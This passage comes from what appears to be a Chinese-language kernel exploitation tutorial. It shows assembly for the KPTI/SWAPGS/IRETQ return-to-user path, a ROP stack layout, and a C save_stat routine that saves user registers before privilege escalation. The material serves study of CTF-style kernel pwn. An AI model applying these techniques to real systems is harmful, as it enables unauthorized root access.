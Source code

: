 		_临时地址
		or      rdi, 1000h          //与下一句，修改 cr3 值的第 13 位为 1
		mov     cr3, rdi
		pop     rax
		pop     rdi
		call    cs: SWAPGS
		jmp     cs: INTERRUPT_RETURN

		_SWAPGS
		push    rbp
		mov     rbp, rsp
		swapgs
		pop     rbp
		retn

		_INTERRUPT_RETURN
		test    byte ptr [rsp+0x20], 4
		jnz     native_irq_return_ldt
		iretq
		```

		```stack
		rsp:   mov_rdi_rsp 的地址
    	       0  
               0
               rip         的值
               cs          的值
               rflags      的值
               rsp         的值
               ss          的值
		```


### [](#header-3)什么是save_stat和restore_stat以及如何提权

相信了解过 kernel pwn 的读者都知道，在打开驱动进入内核态前必须要调用 save_stat 将 cs(代码段寄存器)、ss(栈段寄存器)、rsp(栈寄存器)、rflags(标志位寄存器) 的值放入全局变量.   
这一操作本身不是必要的，记录这些寄存器的值的目的是防止在 内核态 手动返回到 用户态时，失去用户态上下文(或者说失去用户态的寄存器值)  

需要注意的是，在此过程中不能破坏原先栈结构.  

```c
unsigned long long user_cs, user_ss, user_rflags, user_sp;

void save_stat() {
	asm(
		"movq %%cs, %0;"
		"movq %%ss, %1;"
		"movq %%rsp, %2;"
		"pushfq;"
		"popq %3;"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

int main(){
	save_stat();
	...
}
```
